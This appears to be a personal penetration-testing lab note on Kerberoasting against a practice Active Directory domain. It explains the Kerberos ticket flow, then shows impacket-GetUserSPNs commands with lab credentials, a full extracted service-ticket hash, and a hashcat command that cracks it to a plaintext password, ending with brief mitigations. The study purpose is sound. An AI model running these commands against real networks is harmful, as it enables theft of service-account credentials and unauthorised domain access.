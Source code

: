 **Kerberoasting**
How Kerberose works as described by a monkey<br/>
<br/>
1. User requests a Ticket Granting Ticket (TGT) from domain control. Provides NTLM hash<br/>
2. DC provides TGT with krbtgt hash. Provides as NTLM is valid<br/>
3. user reuests Ticket Gratning Service (TGS) ticket. presents DC with the previoulsy optained TGT<br/>
4. Server returns the TGS encryopted with the applications account hash<br/>
<br/>
5. user presents TGS to applications<br/>
6. application grants access.<br/>
<br/>
The attack happens at step 4. The user (victim) can legitmatly request teh TGS. This can then be taken off line by the atacker and decrypted as it is a hash. HASHCAT<br/>
<br/>
<br/>
ATTACK<br/>
<br/>
┌──(kali㉿kali)-[~]<br/>
└─$ sudo impacket-GetUserSPNs marvel.local/lhowlette:Password1 -dc-ip 192.168.247.133 -request                  2 ⨯<br/>
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation<br/>
<br/>
ServicePrincipalName          Name    MemberOf                           PasswordLastSet       LastLogon Delegation <br/>
------------------------------------- ---------- ----------------------------------------------------------- -------------------------- --------- ----------<br/>
XMEN-DC/SQLService.MARVEL.local:60111 SQLService CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local 2022-02-14 06:15:07.837485 &lt;never&gt;        <br/>
<br/>
<br/>
<br/>
<b>$krb5tgs$23$</b>*SQLService$MARVEL.LOCAL$marvel.local/SQLService*$83b2b1e28c55da0701a429e1a9fbdf81$2e131d6d8555a93408f241c8275f48f087165f2bb5b56eae19ef7e259a069efa195fdb42ca8f11358f7e93cd2337862cfff<br/>
1382cef60f6dd77f505f9fb93d7a7457c1ccd8dd512e9b4a9b9f2c2c6f8766d0df0682c7bafc01d0d85723aa8beb6c99fc12<br/>
71e9b160b996bdd0c6c189f2b45ca4924051d59756a87b32573394a8f7d64d8745639b299ddbe62754fae90f5df6528fa5<br/>
ca77223160e8dba1d727fe32a2f33bac5becf9b418bedd195760f09229d674cc1beefbcc1160af50eff97713ead63f96a686<br/>
d64e753adcd59e10cab90a4009251c99e2e8d40dac0d414cd60f6473d293fd2d5ecd433ee4aeb6f34de9ff88ce43df3b918<br/>
1008c0aa8a4bfb238757d8a7dcc656c2e8fd364129ba0f5d70499ff50f3d1d0619cf25bf30cab9356eb9d2534b2b6b250801<br/>
7d01f6e778c2c8239f35c65426545cd829fda339af85077876eca859cae061ad12d58ed482136b56227abb374ecb6256559<br/>
d28258558dffbdface3a3cdb9ee7931b376d07c13dd7e912a2560c4edb689ae1c8ec9bc9e714719a8a5d09aff93ae8d20bd<br/>
3fcfe3dac90b78bef879c835cc651e07c99749a51d97a18fbbd75c58ad099ae3d45179f7a7053a956cd2cca1529a1e17069c<br/>
3da79c95b3bc6a9f47bfa69d9e082be4c93bc29adac27f891f0e9aa8ea5c00c8b7df3efb7e6dd2e72fa7def8296c81272918eb<br/>
2e18be7eb591404ca9a6eebfa06a73ad5e5fa3ac01eea5734d7d5cdf8def8bfd27762f131c6b7ecac476fb9ae3cfebb98f5cba8d<br/>
7e511449ade2abe64c3e1b5b4f5062ad8aaf7d4713fb7e9fadf9ffa46d7f5cd3e14a67caa26cdf683984744be6d889f67656f9a0<br/>
3741b16e737def2a2f866267e584a654fbd4786988975c532d0aa2aaa8cad2a823bd14d689f5d75a866fa34c3d51573011f67<br/>
5d22c6c443df1826663e364a2996f5239568eda4dab2e253d66c0e70745abf04909df96fde94cf2fd2eeef96c1843e7aa1028f<br/>
72bca7c19da34ed86e18dc6931d4b1d3991b9d4fd4796f545682a43180946555e7c336b4626262f7a22375479fc227e440f<br/>
7f7c0bb594b4cc2f9db2e4d13c679de88419b17c52ce160675bc58a81738cbc6c8ff7f67bb2614b7442ec52e30017f9f36894<br/>
70459e533f2e401ca1e1a5b44abc2ecc1b6106c48e1106aaae2acb6b2283f57d029498d0a683731c924cb0057528dddfe3<br/>
f6f9f5cdbb0b346f39f313a7900060dccd561aa32a6162e540dc87b8ba1d35bb5ce087593b15c296f3f4de97acbb01fcd7821e<br/>
62f20a5844ec87e2515d91692b899d0f756110a6e3e473601aaac581e81cbcff6959e84981cbcf1367dcc4fc156e80da4a755<br/>
7c0720b7					&gt;&gt;&gt;NOTE&gt;&gt;&gt; Hash broken to fit page&lt;&lt;&lt;&lt;<br/>
                                                              <br/>
┌──(kali㉿kali)-[~]<br/>
└─$ <br/>
<br/>
paste the hash into a text file<br/>
<br/>
┌──(kali㉿kali)-[~]<br/>
└─$ hashcat --help | grep Kerberos                                                1 ⨯<br/>
 19600 | Kerberos 5, etype 17, TGS-REP            | Network Protocol<br/>
 19800 | Kerberos 5, etype 17, Pre-Auth           | Network Protocol<br/>
 19700 | Kerberos 5, etype 18, TGS-REP            | Network Protocol<br/>
 19900 | Kerberos 5, etype 18, Pre-Auth           | Network Protocol<br/>
 7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth        | Network Protocol<br/>
<b> 13100 | Kerberos 5, etype 23, TGS-REP</b>           | Network Protocol<br/>
 18200 | Kerberos 5, etype 23, AS-REP            | Network Protocol<br/>
<br/>
<br/>
hashcat -m 13100 hashes /usr/share/wordlists/rockyou.txt --force <br/>
<br/>
14 Char password &gt; still cracked<br/>
<br/>
$krb5tgs$23$*<b>SQLService$MARVEL.LOCAL$marvel.local/SQLService*$</b><br/>
MYpassword123#<br/>
<br/>
<br/>
<br/>
MITEGATIONS<br/>
<br/>
This is a feature that is being abused. very limited mitegations<br/>
<br/>
STRONG PASSSWORD<br/>
<br/>
least priviledge!<br/>
<br/>
<br/>
<br/>
